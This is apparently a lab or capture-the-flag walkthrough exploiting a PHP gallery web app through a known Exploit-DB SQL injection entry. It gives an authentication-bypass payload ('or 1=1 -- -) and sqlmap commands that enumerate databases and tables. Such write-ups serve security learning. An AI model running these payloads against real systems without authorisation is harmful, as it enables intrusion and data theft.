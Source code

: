 ```bash
     Path: /usr/share/exploitdb/exploits/php/webapps/50198.txt
File Type: ASCII text

Copied to: /home/kali/Desktop/gallery/50198.txt

```

Looks like we have potential SQL Injection on the `id` parameter.

![image](https://user-images.githubusercontent.com/58165365/153951371-a39000dc-0324-4c57-832c-4f46d11898fa.png)

You can still get the same info on [exploitDb](https://www.exploit-db.com/exploits/50198).

Lets actually follow the steps listed on the POC.

**Step 1:**

WE need to first login, but we dont have any creds...trying some defaults, i didn't get a hit. Tried some basic sqli bypass payloads from [pentesterlab](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/) and got authenticated successfully.

`'or 1=1 -- -`

You can use any of this without supplying the password.

![image](https://user-images.githubusercontent.com/58165365/153963916-2b7fb74a-f343-497b-ba0d-f488b2582ec1.png)

![image](https://user-images.githubusercontent.com/58165365/153953067-de3ff6f0-3d5c-412a-b2ec-338c1cc18cda.png)

**Step 2:**

We're supposed to Click on the Albums page and select an album if created or create by clicking on "Add New" on the top right and select the album.

![image](https://user-images.githubusercontent.com/58165365/153953428-8dfa86c4-106b-4522-b146-6c5fc51048f0.png)

**Step 3:**

Click on an image and capture the request in burpsuite.

![image](https://user-images.githubusercontent.com/58165365/153953732-2031a75e-5bad-4c29-ad40-140436fc4e7b.png)

Now copy the request and save it as test.req .

![image](https://user-images.githubusercontent.com/58165365/153953987-221a4f58-ea53-40ce-9c02-af964d7f5a1a.png)

**Step 4:**

Run the sqlmap command `sqlmap -r test.req --dbs`

![image](https://user-images.githubusercontent.com/58165365/153954958-86273b2c-d461-44cf-8462-0d45f56207ac.png)

Awesome...So we now have two databases..Lets take this a step further and get tables on `gallery_db`

We can do so by running: `sqlmap -r test.req --current-db gallery_db --tables`
